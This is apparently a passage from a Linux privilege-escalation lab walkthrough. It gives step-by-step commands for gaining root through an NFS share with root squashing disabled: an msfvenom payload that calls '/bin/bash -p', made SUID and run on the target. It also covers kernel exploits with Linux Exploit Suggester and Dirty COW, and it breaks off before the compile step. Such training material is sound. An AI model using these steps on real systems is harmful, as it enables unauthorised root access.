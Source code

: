 <figure><img src=".gitbook/assets/image (66).png" alt=""><figcaption><p>1</p></figcaption></figure>

### 18 - NFS

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

`cat /etc/exports`

Note that the /tmp share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

`sudo su`

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

`mkdir /tmp/nfs`\
`mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs`

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Still using Kali's root user, make the file executable and set the SUID permission:

`chmod +xs /tmp/nfs/shell.elf`

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

`/tmp/shell.elf`

### 19 - Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

`perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):
